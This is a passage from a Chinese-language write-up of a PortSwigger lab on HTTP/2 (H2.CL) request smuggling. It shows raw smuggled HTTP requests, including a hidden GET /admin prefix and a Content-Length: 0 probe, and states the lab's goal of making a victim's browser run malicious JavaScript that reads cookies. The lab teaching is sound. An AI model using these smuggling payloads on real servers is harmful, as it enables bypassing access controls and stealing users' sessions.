 那么此时后端请求数据报文将如下：

```plain
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```

下面我们通过一个靶场进行演示介绍：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling)  
靶场介绍：此靶场容易受到请求走私的攻击，因为前端服务器会降低 HTTP/2 请求的级别，即使它们的长度不明确，要解决实验室问题，你需要执行请求走私攻击使受害者的浏览器从漏洞利用服务器加载并执行恶意 JavaScript 文件，调用 alert(document.cookie)，受害者用户每 10 秒访问主页一次  
解题过程：  
Step 1：访问上面的靶场链接地址，让后点击"ACCESS THELAB"进入靶场  
[![](assets/1705287960-44abe556a376d42ee84beea8ff409fb7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103309-c216b318-b029-1.png)  
Step 2：使用 Burp suite 抓包并尝试在 HTTP/2 请求的正文中添加 Content-Length:0 头的方式尝试走私前缀信息，需要注意的是在发送请求之前要将协议设置为 HTTP/2

```plain
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Content-Length: 0

SMUGGLED
```

[![](assets/1705287960-513913a57745d2d81084d9812ac37ad9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103338-d3567208-b029-1.png)  
此时第二个请求都会收到一个 404 响应，由此可以确定我们已经让后端将走私的前缀附加到后续的请求  